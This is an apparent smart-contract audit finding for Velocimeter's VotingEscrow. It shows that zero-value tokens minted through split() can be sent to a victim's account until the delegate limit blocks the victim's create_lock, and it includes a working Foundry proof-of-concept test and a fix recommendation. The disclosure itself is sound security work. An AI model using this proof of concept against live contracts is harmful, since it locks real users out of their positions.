 Active Lace Hippo

High

# Attacker Can Use The `VotingEscrow` To Enact Denial Of Service Against Adversaries

## Summary

Accounts can be cheaply spammed with valueless tokens to enact denial of service to the [`VotingEscrow`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol).

## Vulnerability Detail

To avoid out-of-gas exceptions, the [`VotingEscrow`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol) imposes a maximum limit on the number of tokens which can be held by an account:

```solidity
uint ownerTokenCount = ownerToNFTokenCount[tokenOwner];
require(
    dstRepOld.length + ownerTokenCount <= MAX_DELEGATES,
    "dstRep would have too many tokenIds"
);
```

This enables griefing via token donation, since an adversary need only errantly increase [`ownerToNFTokenCount`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L186C39-L186C58) through token transfers to enact denial of service at will.

In the proof of concept below, we use a flaw in the token [`split(uint256,uint256)`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L1217C14-L1217C46) to freely mint [`MAX_DELEGATES`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L1266C26-L1266C39) of [`VotingEscrow`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol) **tokens with zero value**, and donate these to the account of an adversary:

### VotingEscrow.t.sol

```solidity
/// @notice By exploiting the creation of zero-value tokens,
/// @notice we demonstrate that a victim's `ownerToNFTokenCount`
/// @notice can be manipulated to cause denial of service to the token
/// @notice holder.
function testSherlockVotingEscrowRailgun() public {

    /// @dev Declare and initialize our attacker:
    address c0ffee = address(0xc0ffee);
    uint256 attackerAmount = 1 ether;
    uint256 attackerLockUp = 7 * 24 * 3600 /* 1_week */;
    flowDaiPair.transfer(c0ffee, attackerAmount);

    vm.startPrank(c0ffee);
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint256 seedTokenId = escrow.create_lock(attackerAmount, attackerLockUp);
    vm.stopPrank();

    /// @dev And let's declare our victim:
    address deadbeef = address(0xdeadbeef);

    /// @dev Next, the attacker creates a bunch of
    /// @dev zero-value spam tokens.
    uint256 spamTokensToCreate = 1024 /* MAX_DELEGATES */;
    vm.startPrank(c0ffee);
        for (uint256 i = 0; i < spamTokensToCreate;) {
            escrow.split(seedTokenId, 0) /* split_seed_token */;
            uint256 spamTokenId = seedTokenId + i + 1;
            assertEq(escrow.ownerOf(spamTokenId), c0ffee) /* token_exists */;
            escrow.transferFrom(c0ffee, deadbeef, spamTokenId) /* pow_pow_pow */;
            unchecked { ++i; }
        }
    vm.stopPrank();

    uint256 purchaseAmount = 1 ether;
    flowDaiPair.transfer(deadbeef, purchaseAmount);
    vm.startPrank(deadbeef);
        flowDaiPair.approve(address(escrow), type(uint256).max);
        vm.expectRevert("dstRep would have too many tokenIds");
            escrow.create_lock(purchaseAmount, 7 * 24 * 3600 /* 1_week */);
    vm.stopPrank();
}
```

As shown, attacker `c0ffee` can errantly enact denial of service on `deadbeef` through donation to the protocol limit.

## Impact

Malicious actors can prevent access to the [`VotingEscrow`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol) to arbitrary accounts. This can be exploited to a financial advantage, since it can be used to programmatically force users into holding their position for much longer than intended.

We have opted to elevate the severity to high, since conceptually, even attempts to manually transfer tokens out of accounts can simply be backrun with further spam deposits (further, permanent denial of service can be achieved through invocations to [`delegate(address)`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L1502C14-L1502C41), which also permits arbitrarily appending to a target's reputation checkpoints).

There is a clear motivation for accounts to coerce market participants from trading at economically opportune moments.

## Code Snippet

```solidity
function _moveAllDelegates(
    address tokenOwner,
    address srcRep,
    address dstRep
) internal {
    // You can only redelegate what you own
    if (srcRep != dstRep) {
        if (srcRep != address(0)) {
            uint32 srcRepNum = numCheckpoints[srcRep];
            uint[] storage srcRepOld = srcRepNum > 0
                ? checkpoints[srcRep][srcRepNum - 1].tokenIds
                : checkpoints[srcRep][0].tokenIds;
            uint32 nextSrcRepNum = _findWhatCheckpointToWrite(srcRep);
            uint[] storage srcRepNew = checkpoints[srcRep][
                nextSrcRepNum
            ].tokenIds; /// @custom:hunter array_grows_forever
            // All the same except what tokenOwner owns
            for (uint i = 0; i < srcRepOld.length; i++) {
                uint tId = srcRepOld[i];
                if (idToOwner[tId] != tokenOwner) {
                    srcRepNew.push(tId);
                }
            }

            numCheckpoints[srcRep] = srcRepNum + 1;
        }

        if (dstRep != address(0)) {
            uint32 dstRepNum = numCheckpoints[dstRep];
            uint[] storage dstRepOld = dstRepNum > 0
                ? checkpoints[dstRep][dstRepNum - 1].tokenIds
                : checkpoints[dstRep][0].tokenIds;
            uint32 nextDstRepNum = _findWhatCheckpointToWrite(dstRep);
            uint[] storage dstRepNew = checkpoints[dstRep][
                nextDstRepNum
            ].tokenIds;
            uint ownerTokenCount = ownerToNFTokenCount[tokenOwner];
            require(
                dstRepOld.length + ownerTokenCount <= MAX_DELEGATES,
                "dstRep would have too many tokenIds"
            );
            // All the same
            for (uint i = 0; i < dstRepOld.length; i++) {
                uint tId = dstRepOld[i];
                dstRepNew.push(tId);
            }
            // Plus all that's owned
            for (uint i = 0; i < ownerTokenCount; i++) {
                uint tId = ownerToNFTokenIdList[tokenOwner][i];
                dstRepNew.push(tId);
            }

            numCheckpoints[dstRep] = dstRepNum + 1;
        }
    }
}
```

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L1362C5-L1411C6

## Tool used

Manual Review

## Recommendation

Use a financially-prohibitive mechanism to discourage malicious token donations; ensure a minimum stake for all token values that should be respected both **during creation** and preserved by both of the resultant tokens **after performing a split**.